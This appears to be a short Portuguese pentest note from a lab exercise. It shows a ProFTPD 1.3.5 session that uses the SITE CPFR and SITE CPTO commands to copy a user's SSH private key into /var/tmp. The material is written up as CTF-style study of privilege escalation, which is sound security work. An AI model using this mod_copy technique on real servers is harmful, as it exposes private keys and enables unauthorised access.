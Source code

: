 ```yaml
---
{"dg-publish":true,"permalink":"/pentest/priv-escalation/movendo-uma-chave-privada-para-um-outro-local-usando-cpfr-e-cpto/"}
---
```


## Movendo uma chave privada para um outro local usando CPFR e CPTO

```shell
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.125.248]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```